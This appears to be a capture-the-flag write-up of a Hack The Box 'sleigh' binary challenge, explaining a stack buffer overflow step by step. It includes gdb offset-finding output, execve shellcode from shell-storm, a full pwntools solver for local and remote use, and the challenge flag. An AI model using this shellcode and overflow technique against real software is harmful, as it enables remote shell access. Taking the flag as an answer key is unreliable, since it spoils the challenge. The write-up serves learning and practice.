




# Sleigh

The Elves have messed up with Santa's sleigh! Without it, he will not be able to deliver any gifts!! Help him repair it and save the holidays!

## Analysis

In this challenge we were given an ELF-64bit named `sleigh` with no canary, PIE enabled, and NX disabled.

```
$ file sleigh; checksec sleigh   
sleigh: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=1ad11f3bacb267e6e5667523bca200ab68a1683c, not stripped
[*] '/home/kali/Documents/HTB/cyber santa/pwn_sleigh/sleigh'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

Let's try to run it

#### First try



#### Second try



It seems that we have to insert 1 for the first input and then use the address that were given (?). But the program shows that the NX is disabled, so we could input the shellcode into the stack and call it! Let's open the program using ida to see what the source code looks like.

#### main function
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setup(*(_QWORD *)&argc, argv, envp);
  banner();
  if ( (unsigned int)sleigh() != 1 )
    goodbye();
  repair();
  return 0;
}
```

From the main function, it called 3 other function, banner(), goodbye(), and repair(). Function banner() only give the output of the sleigh and the function goodbye() used to exit the program. So if we give 1 for the first input, it will redirect us into the repair() function.

So, we need to dive into the function `repair` more!

#### repair
```c
int repair()
{
  __int64 buf; // [rsp+0h] [rbp-40h]
  __int64 v2; // [rsp+8h] [rbp-38h]
  __int64 v3; // [rsp+10h] [rbp-30h]
  __int64 v4; // [rsp+18h] [rbp-28h]
  __int64 v5; // [rsp+20h] [rbp-20h]
  __int64 v6; // [rsp+28h] [rbp-18h]
  __int64 v7; // [rsp+30h] [rbp-10h]
  __int64 v8; // [rsp+38h] [rbp-8h]

  buf = 0LL;
  v2 = 0LL;
  v3 = 0LL;
  v4 = 0LL;
  v5 = 0LL;
  v6 = 0LL;
  v7 = 0LL;
  v8 = 0LL;
  fprintf(
    _bss_start,
    "%s\n[!] There is something written underneath the sleigh: [%p]\n\n",
    "\x1B[1;32m",
    &buf,
    0LL,
    0LL,
    0LL,
    0LL,
    0LL,
    0LL,
    0LL,
    0LL);
  fprintf(_bss_start, "%s[*] This might help the repair team to fix it. What shall they do?\n> ", "\x1B[1;34m");
  read(0, &buf, 0xA4uLL);
  return fprintf(_bss_start, aSUnfortunately, "\x1B[1;31m");
}
```

Turns out the address that were printed was from the first variable in function repair. It seems that we can overflow the buffer from this area. So let's get the data that we need.

First, we could use gdb to create a pattern.
```
$ gdb -q ./sleigh      
Reading symbols from ./sleigh...
(No debugging symbols found in ./sleigh)
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
```

Next, run the program and send the pattern.
```
gdb-peda$ r
Starting program: /home/kali/Documents/HTB/cyber santa/pwn_sleigh/sleigh 

                                                                                                              
 🎵 ❄  Dashing through the snow.. ❄  🎵                                                                       
                                                                                                              
                                                                                                              
    ▓▓██████████████████████████▓▓                                                                            
  ██████████████████████████████████                                                                          
██████████████████████████████████████                                                                        
████████████████████████████████████████                                                                      
████████████████  ██████████████████████                                                                      
    ▒▒██████          ▓▓██████████████████                                                                    
      ████████      ██████████████████████                                          ██████                    
      ████████      ██████████████████████▓▓                                    ████████████                  
      ████████▒▒████████████████████████████                                  ██████████████                  
      ████████████████████████████████████████                                ██████████████                  
    ██████████████████████████████████████████▒▒                            ████████  ██████                  
    ████████████████████████████████████████████                          ██████████    ██                    
  ████████████████████  ████████████████████████████                    ██████████                            
  ████████████████████    ████████████████████████████████████████████████████████                            
  ██████████████                ██████████████████████████████████████████████████                            
  ████████████████▓▓        ██████████████    ▒▒  ████████████████████████████████                            
  ████████████████          ██████████████      ████████████████████████████████                              
    ██████████████  ▓▓████  ██████████████  ▓▓  ████████████████████████████████                              
      ████████████████████████████████████████████████████████████████████████                                
        ████████████████████████████████████████████████████████████████████                                  
          ████████████████████████████████████████████████████████████████                                    
                ▓▓▓▓▓▓                                      ▓▓▓▓▓▓                                            
                ▒▒▒▒▒▒                                        ▒▒▒▒▒▒                    ▒▒▒▒                  
              ▒▒▒▒▒▒                                          ▒▒▒▒▒▒▒▒                  ▒▒▒▒                  
            ▒▒▒▒▒▒                                              ▒▒▒▒▒▒▒▒                ▒▒▒▒                  
            ▒▒▒▒▒▒                                                ▒▒▒▒▒▒▒▒            ▒▒▒▒▒▒                  
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒                    
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒                    
                                                                                                              
                                                                                                              

1. Repair  ⚒                                                                                                  
2. Abandon 🏃                                                                                                 
> 1                                                                                                           
                                                                                                              
[!] There is something written underneath the sleigh: [0x7fffffffdeb0]                                        
                                                                                                              
[*] This might help the repair team to fix it. What shall they do?                                            
> AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL        
                                                                                                              
[-] Unfortunately, the sleigh could not be repaired! 😥                                                       
                                                                                                              
Program received signal SIGSEGV, Segmentation fault.
```

From the output above, we can determine which part of our pattern is hitting the return in the main function by examining the `$rsp`.
```
gdb-peda$ x/gx $rsp
0x7fffffffdef8: 0x4134414165414149
gdb-peda$ pattern offset 0x4134414165414149
4698452060381725001 found at offset: 72
```

Nice, we got the offset/padding. Now we need to get the shellcode from [shellstorm](http://shell-storm.org/shellcode/files/shellcode-806.php).
```
char code[] = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";
```

## Exploit

Let's make a solver using python
```python
from pwn import *

offset = 72
pop_rdi = 0x0000000000000c63
ret = 0x000000000000076e
shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

elf = ELF("./sleigh")
s = elf.process()

print(s.recvuntil(b"> ").decode())
print("1")
s.sendline(b"1")

print(s.recvuntil(b"There is something written underneath the sleigh: [").decode())

# strip to remove the unneeded part "]\n" and convert it into integer
leakVariable = int(s.recvline(b"]").strip(b"]\n"), 16)

log.info(f"leak address of variable: {hex(leakVariable)}")

# shellcode were put in the first or in the beginning of the payload, because we will fill the buffer
# where shellcode will be stored in variable buf (first variable in function repair)
# after filling the buffer, we will call the variable buf to execute the shellcode
payload = shellcode
payload += b"A"*(offset-len(shellcode))
payload += p64(leakVariable)

print(payload)
s.sendline(payload)

s.interactive()

s.close()
```

Now we need to do is just run the program to make sure it works on local first!



It works! To access the server remotely, we need to add remote to server using host and port.

```python
from pwn import *

host = "178.62.123.156"
port = 31694

offset = 72
pop_rdi = 0x0000000000000c63
ret = 0x000000000000076e
shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

elf = ELF("./sleigh")
# s = elf.process()
s = remote(host, port)

print(s.recvuntil(b"> ").decode())
print("1")
s.sendline(b"1")

print(s.recvuntil(b"There is something written underneath the sleigh: [").decode())

# strip to remove the unneeded part "]\n" and convert it into integer
leakVariable = int(s.recvline(b"]").strip(b"]\n"), 16)

log.info(f"leak address of variable: {hex(leakVariable)}")

# shellcode were put in the first or in the beginning of the payload, because we will fill the buffer
# where shellcode will be stored in variable buf (first variable in function repair)
# after filling the buffer, we will call the variable buf to execute the shellcode
payload = shellcode
payload += b"A"*(offset-len(shellcode))
payload += p64(leakVariable)

print(payload)
s.sendline(payload)

s.interactive()

s.close()
```

Now all we need to do is just run the program!



Flag: `HTB{d4sh1nG_thr0ugH_th3_sn0w_1n_4_0n3_h0r53_0p3n_sl31gh!!!}`
